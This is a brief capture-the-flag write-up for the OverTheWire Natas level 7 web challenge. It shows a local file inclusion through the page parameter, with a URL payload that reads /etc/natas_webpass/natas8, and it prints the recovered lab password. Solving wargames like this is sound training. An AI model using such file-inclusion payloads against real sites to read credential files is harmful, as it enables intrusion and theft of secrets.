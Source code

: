 # Flag
natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

I noticed the URL has a page paramter and the supplied page is used to query the file associated with the value in the parameter.
If we try and check http://natas7.natas.labs.overthewire.org/index.php?page=jkhjk, the page returns:

Warning: include(jkhjk): failed to open stream: No such file or directory in /var/www/natas/natas7/index.php on line 21
....

In the source it says:
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

If we go to http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8,
we can get see the password is displayed: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe